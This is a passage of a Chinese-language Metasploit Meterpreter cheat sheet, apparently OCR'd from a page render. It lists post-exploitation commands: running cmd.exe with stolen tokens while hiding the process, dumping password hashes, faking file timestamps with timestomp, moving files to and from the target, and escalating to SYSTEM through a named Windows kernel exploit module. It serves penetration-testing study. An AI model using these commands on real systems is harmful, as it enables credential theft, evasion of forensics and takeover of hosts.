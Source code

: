   以所有可用令牌来执行 cmd 命令并交互
  
- `execute -f cmd.exe -i -H -t`
  
  以所有可用令牌来执行 cmd 命令并隐藏该进程
  
- `reboot`
  
  重启目标主机
  
- `shutdown`
  
  关闭目标主机
  
- `hashdump`
  
  导出目标主机中的口令哈希值

### 文件管理模块

- `ls`
  列出目标主机的文件和文件夹信息
- `reg command`
  在目标主机注册表中进行交互，创建、删除、查询等
- `upload file`
  向目标主机上传文件
- `download file`
  从目标主机下载文件
- `timestomp`
  修改文件属性，例如修改文件的创建时间`
  例如：timestomp file1 -f file2`
  将file1文件的时间信息设置得与file2文件完全一样
- `cat`
  查看文件内容
- `getwd`
  获得目标机上当前的工作目录
- `edit`
  编辑目标机上的文件
- `search`
  对目标机上的文件进行搜索，支持星号匹配，如`
  search -d c:\windows -f *.mdb

### 权限提升模块

- `getprivs`

  尽可能多地获取目标主机上的特权

- `getsystem`

  通过各种攻击向量来提升到系统用户权限

**内核漏洞提权**

```bash
meterpreter > run post/windows/gather/enum_patches  #查看补丁信息
msf > use exploit/windows/local/ms13_053_schlamperei
msf > set SESSION 2
msf > exploit
```
